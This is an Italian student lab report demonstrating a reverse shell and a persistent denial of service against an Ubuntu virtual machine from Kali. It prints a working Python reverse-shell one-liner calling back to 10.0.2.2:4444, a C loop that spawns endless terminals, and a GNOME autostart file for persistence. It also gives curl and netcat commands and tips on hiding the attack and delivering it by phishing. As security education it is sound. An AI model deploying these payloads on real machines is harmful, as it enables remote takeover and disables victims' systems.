 # Cybersecurity report Huseinovic Elma

## Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

# Introduction

L'obiettivo della demo è di creare un Denial of Service persistente su una macchina virtuale Ubuntu, che quindi sarà la macchina attaccata, mentre per l'attaccante è stata utilizzata una macchina virtuale Kali. Per fare ciò, per prima cosa viene creata una reverse shell per permettere alla macchina attaccante di agire liberamente sulla macchina Ubuntu. 

## Preparazione Kali
Per prima cosa sono stati creati tutti i file necessari su Kali.
Per primo il file `reverseshell.sh`, dove è presente il [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
<pre>
export RHOST="10.0.2.2";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")&'
</pre>
che permette di creare una reverse shell in background quando eseguito sulla macchina attaccata.
Poi, è stato creato un semplicissimo programma in C, `dos.c`, contenente un ciclo while infinito che continua ad aprire finestre di terminale:
```js
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
è stato scelto di aprire il terminale per semplicità, è possibile farlo con altre applicazioni e anche aprirne diverse, creando un vero e proprio crash della macchina. 
Infine è stato creato il file `dos.desktop` 
```js
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
che verrà utilizzato per inserire il programma che esegue il Denial of Service tra le applicazioni che si aprono all'avvio della macchina. 
I flag Hidden e NoDisplay, per evidenziare il Denial of Service, sono stati messi a false, se vengono settati a true, il programma viene eseguito senza che l'utente si accorga di nulla, quindi la macchina viene rallentata senza la riesca a capire il motivo.
Una volta creati i file, è stata creato anche un web file server sulla porta 80, utilizzando il comando 
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

A questo punto, l'unica cosa che rimane da fare, è mettersi in ascolto sulla porta predefinita, per fare ciò è stato utilizzato il comando `nc -lvp 4444 -n`

# Reverse shell 

Per creare la reverse shell, è necessario che l'utente sulla macchina attaccata venga convinto a scaricare ed eseguire il file `reverseshell.sh`, questo potrebbe essere fatto creando una mail di phishing e convincendolo, per esempio, che si tratti di una patch di sicurezza. Nella demo, viene utilizzando il comando `curl -O "http://10.0.2.2/demo/reverseshell.sh"`, che scarica il file dal web file server creato su Kali, a questo punto si esegue il comando `sudo chmod +x reverseshell.sh` che aggiunge il permesso di esecuzione al file con privilegi di amministratore, infine viene eseguito il file con `./reverseshell.sh`. 
A questo punto, essendo la reverse shell eseguita in background, l'utente su Ubuntu può continuare ad utilizzare il terminale normalmente, senza accorgersi di nulla, ma in realtà è connesso sulla porta 4444 alla macchina Kali attraverso una reverse shell.

![Reverse Shell](images/reverseshell.png)

# DoS e persistent crash 

Utilizzando la reverse shell, ora, è facile scaricare il programma `dos.c` e il file `dos.desktop` dal web file server di Kali utilizzando sempre il comando `curl`:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
ora, il programma dos.c viene compilato utilizzando il comando `ggc -o dos dos.c`, viene creato, così, l'eseguibile. Prima di eseguirlo, però, bisogna creare persistenza: il file `dos.desktop` viene spostato in `.config/autostart`, per fare ciò viene utilizzato il comando `mv`, che deve, però, essere eseguito con privilegi di amministratore, quindi utilizzando `sudo`, questo implica che l'attaccante debba conoscere la password dell'account. Una volta che `dos.desktop` viene spostato, il programma `dos` è visibile in Startup Application Preferences, che mostra i programmi che vengono eseguiti allo startup della macchina. 

![Startup Application Preferences](images/startupapplications.png)

quindi, ogni volta che avverrà l'accesso alla macchina, verranno aperte in loop innumerevoli finestre di terminale, rendendolo inutilizzabile. 

![DoS](images/dos.png)

# Recovery

Provando a rimuovere `dos` utilizzando l'applicazione Startup Application Preferences e riavvinado la macchina, il programma viene eseguito comunque, questo perchè non viene rimosso il file `dos.desktop` presente in `.config/autostart`, il quale continua rimettere il programma tra le applicazioni da eseguire all'avvio. 
Per fermare questo attacco si potrebbe pensare di cancellare l'eseguibile `dos`, ma nel caso in cui questo venga a sua volta posto in una cartella non facilmente raggiungibile, questo non si potrebbe fare, soprattutto se non si sa cosa sta succedendo e se la macchina comincia a crashare. 
In alternativa si potrebbe pensare si cancellare il file dos.desktop, ma essendo collocato in una directory nascosta di default ed essendo il terminale non utilizzabile, questo potrebbe risultare difficile.


